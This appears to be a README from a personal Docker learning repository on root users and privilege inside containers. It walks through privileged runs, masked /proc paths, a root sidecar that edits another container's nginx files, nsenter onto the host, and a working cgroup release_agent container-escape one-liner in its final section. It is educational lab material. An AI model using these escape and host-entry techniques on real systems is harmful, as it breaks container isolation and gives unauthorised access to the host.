 # ROOT USER

Demonstrate root user and privilege inside the container.  

TODO:

* try and nsenter into the host
* try and list all the host processes from inside the container.

REF: [13_users_and_permissions/README.md](../13_users_and_permissions/README.md)  
REF: [chrisguest75/sysadmin_examples/10_file_permissions/README.md](https://github.com/chrisguest75/sysadmin_examples/blob/master/10_file_permissions/README.md)

NOTES:

* It looks as though the ubuntu containers now come with a preinstalled ubuntu user id:1000.  

## 📋 Script to follow

Demonstrate internal users and privilege  

### Build the image (root and user)

```sh
# build root
just docker-build root
# build myuser
just docker-build user
```

### Run as privileged (root)

```sh
# roottest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name 05_root 05_root

# in container shell
whoami
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_root -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as privileged (user)

```sh
# usertest
docker run -it --rm --privileged --entrypoint "/bin/bash" --name 05_user 05_user

# in container shell
whoami
# even though privileged we can't 'cat timer_list'
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_user -q)

# "MaskedPaths": null,
# "ReadonlyPaths": null
```

### Run as non-privileged and inspect (root)

```sh
# roottest
docker run -it --rm --entrypoint "/bin/bash" --name 05_root 05_root

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_root -q)

# should see in output
"MaskedPaths": [
    "/proc/asound",
    "/proc/acpi",
    "/proc/kcore",
    "/proc/keys",
    "/proc/latency_stats",
    "/proc/timer_list",
    "/proc/timer_stats",
    "/proc/sched_debug",
    "/proc/scsi",
    "/sys/firmware"
],
"ReadonlyPaths": [
    "/proc/bus",
    "/proc/fs",
    "/proc/irq",
    "/proc/sys",
    "/proc/sysrq-trigger"
]
```

### Run as non-privileged and inspect (myuser)

```sh
# usertest
docker run -it --rm --entrypoint "/bin/bash" --name 05_user 05_user

# in container shell
whoami
# does not list anything but works (masked path)
cat /proc/timer_list

# from another terminal
docker inspect $(docker ps --filter name=05_user -q)

```

## Modify another container using sidecar rootuser

Start an nginx container

```sh
# start nginx
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/

# open unprivileged non-root user sidecar
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" usertest
# Change the nginx static file (permission denied)
cat /proc/1/root/etc/nginx/nginx.conf

# open unprivileged root user sidecar (allows us to edit files)
docker run -it --rm --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" 05_root

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

## Modify another container using privileged rootuser

```sh
# open privileged sidecar
docker run -it --rm --privileged --entrypoint "/bin/bash" 05_root

# try and nsenter into the host
# try and list all the containers from inside.
```

## Get onto the docker desktop alpine host

```sh
# nsenter into the host docker alpine 
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Changing and reloading config  

```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Escape the container

This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  

```sh
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
